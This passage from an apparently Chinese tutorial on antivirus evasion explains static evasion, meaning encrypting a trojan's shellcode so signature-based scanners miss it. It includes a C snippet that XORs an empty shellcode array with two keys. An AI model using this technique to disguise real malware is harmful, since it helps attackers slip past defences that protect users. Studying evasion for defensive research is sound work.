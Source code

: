 ![image.png](assets/1704791749-80a935b67e4974a52b9270204264f337.png)

# 0x03 免杀制作思路

## 1、静态免杀

杀软是通过标记特征进行木马查杀的，我们可以通过加解密的方式来隐藏我们的恶意代码。加密的方式非常多，最常用的是 xor 双加密，除此之外你还可以使用 AES、SM4 等对称加密，也可以使用 SM9、RSA 等非对称加密。  
使用双重 xor 的方式进行加密，其中`^6^184`，6 和 184 就是两个 key。

```php
unsigned char shellcode[] = "";

void encrypt(){
    for(int j = 0;j<sizeof(shellcode);j++)
    {
        *(unsigned char*)&shellcode[j] = *(unsigned char*)&shellcode[j]^6^184;
        printf("\\x%02x",*(unsigned char*)&shellcode[j]);
    }
}
```
